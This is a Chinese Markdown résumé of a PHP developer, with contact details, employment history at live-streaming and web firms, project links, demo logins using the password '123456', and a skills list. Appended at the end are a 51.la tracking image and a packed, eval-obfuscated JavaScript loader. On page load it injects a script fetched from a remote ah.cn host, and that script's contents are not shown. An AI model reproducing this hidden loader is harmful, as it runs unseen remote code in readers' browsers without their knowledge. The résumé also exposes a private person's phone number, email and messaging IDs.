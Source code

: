 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：3年+
 - 最高学历：高中
 - 期望职位：PHP开发工程师
 - 期望城市：上海 

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[Alone@an56.net](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海三叉戟信息科技有限公司 （2016年10月 ~ 至今）

### [烈火直播APP](#)
 - 新需求分析、数据表设计及IM协议定义；
 - 微信公众号充值钻石；
 - 热门直播自动排序及后台手动排序算法；
 - 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
 - 主播家族及成员业绩、收益统计结算；
 - 转盘抽奖、押注等H5游戏接口；
 - 七牛直播云及连麦互动服务端接入；
 - 新增、日活、留存等数据分渠道分设备异步统计分析；
 - 各接口优化及历史遗留问题修复；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；

### [烈火APP相关API接口](#)
 - 用户付费充值相关接口：
     - 用户钻石、魅力值等账户数据内部接口；
     - 支付宝、微信充值及提现；
     - 福袋、宝箱（类似抢红包）相关接口；
     - 一对一礼物、直播礼物接口；
 - 视频直播相关接口：
     - 直播喇叭、热门票等道具相关接口；
     - 直播任务奖励相关接口；
     - 观众贡献榜单排行等接口；
 - 各类专题活动相关接口及H5页面；
 - APP直传OSS相关接口；


## 上海幺令巴网络科技有限公司 （2015年5月 ~ 2015年7月）

### [快讯通手机APP数据接口](http://naotu.baidu.com/viewshare.html?shareId=awbv4fveqha8)
- 负责APP数据接口的开发；
- 负责APP内嵌H5网页的开发以及控制器方法的重写；

### [站点及SEO管理系统](#)
- 该系统的主要目的是为了管理公司的客户网站以及域名，此外还包括服务器、注册商、SEO优化的管理。
- SEO优化又包括SEO任务、关键词、外链文章、资源站等管理，以及对外链专员发布外链记录的管理。
- 图片演示：http://pan.baidu.com/s/1jGy7HbC


## 自由职业 （2014年8月 ~ 2015年3月）

### [WinIIS广告推广平台](http://www.an56.net/adsense/)
 - 演示账户：adsense 密码：123456
 - 类似于“淘宝客”，按成交计费的推广模式(CPS)

### [微信公众号管理平台](http://app.ah.cn/weixin/admin/?m=Msg)
 - 使用ThinkPHP框架开发
 - 根据关键词、正则表达式判断请求，回复相应内容
 - 自定义拓展接口，实现天气、快递等查询
 - [测试自动回复](http://app.ah.cn/weixin/test/)


## 合肥一浪网络科技有限公司 （2013年6月 ~ 2014年7月）

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [天长市市场监督管理局网站](http://www.tcscjg.gov.cn/)
- [天长市万寿镇政府网站](http://www.wanshou.gov.cn/?/wza)，[无障碍功能](http://www.wanshou.gov.cn/view.asp?/wza/=/&id=1111)
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设，ASP程序开发，模板制作。


---

# 开源项目和作品

## 开源项目

 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](https://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp + Access

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + AngularJS + Bootstrap
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)


---

# 技能清单
- 开发语言：PHP / Golang / JavaScript
- 后端框架：ThinkPHP / Laravel
- 前端框架：jQuery / Bootstrap / Vue.js
- 开发工具：PHPStorm / Sublime Text / Git / Firebug
- 数据库相关：MySQL / Redis / SqLite / MSSQL
- 云和开放平台：SAE / 支付宝 / QQ互联 / 微信公众平台


---

# 自我描述
- 熟练使用PHP语言开发网站应用，熟悉ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux常用命令；
- 熟悉MySQL数据库优化以及Git，SVN等协作工具；
- 精通Web前端，熟练使用jQuery、Bootstrap、Vue.js；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；
- 了解各大开放平台API接口，开发过微信公众平台接口。

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。

![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>